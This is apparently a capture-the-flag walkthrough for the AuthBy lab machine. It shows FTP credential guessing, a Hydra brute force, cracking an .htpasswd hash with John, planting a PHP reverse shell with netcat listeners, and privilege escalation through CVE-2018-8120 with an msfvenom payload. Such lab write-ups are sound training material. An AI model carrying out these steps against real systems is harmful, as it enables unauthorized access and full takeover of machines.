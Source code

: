 Nmap scan:

![e731e835217c3e7df869fc31e9398c5b.png](../../../../../../_resources/e731e835217c3e7df869fc31e9398c5b.png)

Try anonymous ftp login (anonymous/anonymous):
`ftp 192.168.112.46`
![53ebf54f61cd3caf655502d8e96c0400.png](../../../../../../_resources/53ebf54f61cd3caf655502d8e96c0400.png)

View files:

![a490dccba8ecbcc6c26d71ec20040c52.png](../../../../../../_resources/a490dccba8ecbcc6c26d71ec20040c52.png)

Find account names here:

![9ea17a4d5fc4b3d9b944237388204538.png](../../../../../../_resources/9ea17a4d5fc4b3d9b944237388204538.png)

Seeing offsec, admin, and anonymous accounts. Decided to try to log into offsec and admin accounts using ftp with no password and with anonymous password. Didn't work. Finally tried to log into admin with admin and it worked. However, another guide points to port 242 where a login screen is shown:

![a55c16776cf7dcacc596bfd2097a2af6.png](../../../../../../_resources/a55c16776cf7dcacc596bfd2097a2af6.png)

Brute force this login using Hydra:

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.112.46 ftp –V -f`
Find password admin for account admin.

Now log into ftp using admin/admin to view more files:
![e63a399e2d32b53b37ed63b44d96fe7e.png](../../../../../../_resources/e63a399e2d32b53b37ed63b44d96fe7e.png)
See .htaccess and .htpasswd files:
![c829d226622d337e40e8b75d3eee281f.png](../../../../../../_resources/c829d226622d337e40e8b75d3eee281f.png)
Download files from ftp server:
`get [file_name]`

View files:
![baa06727a837fb3dfaad9f77f62a66c3.png](../../../../../../_resources/baa06727a837fb3dfaad9f77f62a66c3.png)
Translate:
![2439f1339a0eedecd1a80b08667fc0b6.png](../../../../../../_resources/2439f1339a0eedecd1a80b08667fc0b6.png)

View other file:
![fee8fbf6dd2f42ac07b9855e1eea0ab5.png](../../../../../../_resources/fee8fbf6dd2f42ac07b9855e1eea0ab5.png)

Use John to crack password with rockyou.txt:
`john --wordlist rockyou.txt .htpasswd`
![51602230b44f192765009aa59e541dc8.png](../../../../../../_resources/51602230b44f192765009aa59e541dc8.png)
Password for offsec account is elite. Use this to log into website at port 242:
![f54a28c17b374285f0dbee9a252b5271.png](../../../../../../_resources/f54a28c17b374285f0dbee9a252b5271.png)

Now I can upload a reverse shell onto the website. Site uses php as shown below, so find a reverse shell payload for Windows (AuthBy is a Windows box):
![1c0a32ceb8c5ee780bcb2a61b9cbb8dc.png](../../../../../../_resources/1c0a32ceb8c5ee780bcb2a61b9cbb8dc.png)
This windows reverse shell worked well:
https://github.com/Dhayalanb/windows-php-reverse-shell

Edit shellcode with attacker IP and port (used 8080). Upload onto the target using the ftp access with admin user:
`put shell.php`

Start netcat listener on port specified in shell.php (8080)
`nc -nlvp 8080`
Append shell.php to website from before (at port 242)
`http://192.168.112.46/shell.php`

This didn't work and I found out it's because of the tmp directory specified by default in that shell.php code. Modifying the $tmpdir variable to set it to C:\\wamp\\www fixes the issue
![182dc4eceef8df1da9e75908e6338ef5.png](../../../../../../_resources/182dc4eceef8df1da9e75908e6338ef5.png)

Make the change and rerun the exploit. Netcat returns a shell on the device:
![38743f30729c08458f8928ca31e017ed.png](../../../../../../_resources/38743f30729c08458f8928ca31e017ed.png)

Check logged in user:
![21b8d1231e2334de4b141b31acfeb14d.png](../../../../../../_resources/21b8d1231e2334de4b141b31acfeb14d.png)

Find user flag in user desktop directory.

Find out more info about the system:
`systeminfo`
![8ce82ce39f0c255ed85666ddc655a61d.png](../../../../../../_resources/8ce82ce39f0c255ed85666ddc655a61d.png)

Now looks for exploit for Server 2008 not using metasploit. Found https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120
This exploit allows a user on a system vulnerable to this exploit to start a new process as SYSTEM. This process can be used to to trigger a windows reverse shell payload.

Download the CVE-2018-8120 exploit. Save as exploit.exe.

Generate windows reverse shell payload named priv.exe using msfvenom:
![feb4fb1172fed0cf9d6ed70ececac2a6.png](../../../../../../_resources/feb4fb1172fed0cf9d6ed70ececac2a6.png)

Set up another listener specifying the same port from the windows msfvenom payload (using port found in nmap scan):
`nc -nlvp 3145`

Now use the exploit.exe to trigger the windows reverse shell payload:
![cad98fbdad05a7ee579b59415da7d3a2.png](../../../../../../_resources/cad98fbdad05a7ee579b59415da7d3a2.png)

Get a new shell back at the nc listener on port 3145 on the attack machine:
![f04f3984075820bdd7be054411a82614.png](../../../../../../_resources/f04f3984075820bdd7be054411a82614.png)

Find root flag in administrator desktop folder!
